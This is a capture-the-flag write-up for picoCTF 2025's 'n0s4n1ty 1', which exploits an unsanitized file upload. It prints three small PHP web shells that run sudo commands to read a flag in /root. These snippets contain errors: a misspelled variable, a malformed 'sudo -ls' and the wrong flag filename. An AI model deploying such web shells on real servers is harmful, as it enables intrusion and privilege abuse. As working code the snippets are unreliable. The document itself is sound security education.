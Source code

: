 # Challenge: n0s4n1ty 1

## Details:

- Source: picoCTF 2025
- Category: Web Explotation
- Difficulty: Easy
- Date completed: 12.07.2025
- A website was provided


## Description

A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the /root directory.
Additional details will be available after launching your challenge instance.


## Hints

1. File upload was not sanitized
2. Whenever you get a shell on a remote machine, check sudo -l


## Tools

- A simple PHP web shell


## Steps taken

1. As hints suggested, there was no input sanitation in the website. Users can upload any kind of files instead of image files.

2. I did some research and wrote a php file to get a web shell in order to execute commands. My first try was to run `sudo -l` as the hint suggested.

    ```bash
    <?php 
    $command = 'sudo -l';
    $ouput = exec($command);
    echo "$output";
    ?>
    ```

3. I encountered this after uploading, suggesting the directory where my files are uploaded can be accessed publicly.

    ![Uploaded]("./Images/03-uploaded.png")

4. I navigated to the /uploads/filename.

    ![See result]("./Images/03-see_uploaded")

This output showed that I can run any command with sudo without password.

5. My next attempt was to see the files and directories `/root` contained, as the description mentioned the flag was somewhere there. This was my next php file.

    ```bash
    <?php
    $command = 'sudo -ls /root';
    $output = exec($command);
    echo "$output";
    ?>
    ```

6. I discovered the only file in root directory was `flag.txt`, therefore my next and final step was to read its contents and submit the flag, for whic I modified my `exploit.php` file to this.

    ```bash
    <?php
    $command = 'sudo cat /root/file.txt';
    $output = exec($command);
    echo "$output";
    ?>
    ```


## What I learned

1. File upload vulnerabilities occur when an application allows a user to upload a file without properly validating the file’s type, name, size, or content.

2. These vulnerabilities can lead to Remote Code Execution (RCE), directory traversal, or webshell access if exploited.

3. These vulnerabilities can be exploited using Burpsuite as well, by changing headers. 


## Useful references

1. [File upload vulnerabilities learning path]("https://portswigger.net/web-security/learning-paths/file-upload-vulnerabilities")

2. [Web Shells 101]("https://www.acunetix.com/blog/articles/web-shells-101-using-php-introduction-web-shells-part-2/")

